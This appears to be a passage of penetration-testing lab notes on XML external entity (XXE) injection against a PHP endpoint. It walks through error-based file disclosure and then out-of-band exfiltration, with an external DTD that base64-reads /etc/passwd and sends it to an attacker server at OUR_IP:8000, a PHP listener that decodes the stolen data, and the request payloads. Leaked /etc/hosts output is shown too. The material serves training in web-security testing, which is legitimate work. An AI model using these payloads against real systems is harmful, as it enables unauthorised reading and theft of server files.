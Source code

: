 The web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error.
- Call our external DTD script, and then reference the `error` entity:
``` HTTP
POST /error/submitDetails.php HTTP/1.1

<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
- Response
``` HTTP
HTTP/1.1 200 OK

<b>Notice</b>:  DOMDocument::loadXML(): PEReference: %nonExistingEntity; not found in http://10.10.15.200:8000/xxe.dtd, line: 2 in <b>/var/www/html/error/submitDetails.php</b> on line <b>11</b><br />
<br />
<b>Warning</b>:  DOMDocument::loadXML(): Invalid URI: /127.0.0.1 localhost
127.0.1.1 academy_webattacks_xxe

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
[SNIP].....
```
`this method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it.
### Out-of-band Data Exfiltration
Instead of having the web application output our `file` entity to a specific XML entity, we will make the web application send a web request to our web server with the content of the file we are reading.
#### Manually 
* On attacker machine
Create `xxe.dtd` with the content:
``` dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
Create `index.php` with the content:
``` PHP
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
Start PHP server:
``` bash
php -S 0.0.0.0:8000
```
- Send request to the target
``` HTTP
POST /error/submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
- Data retrieved on the Response on the PHP server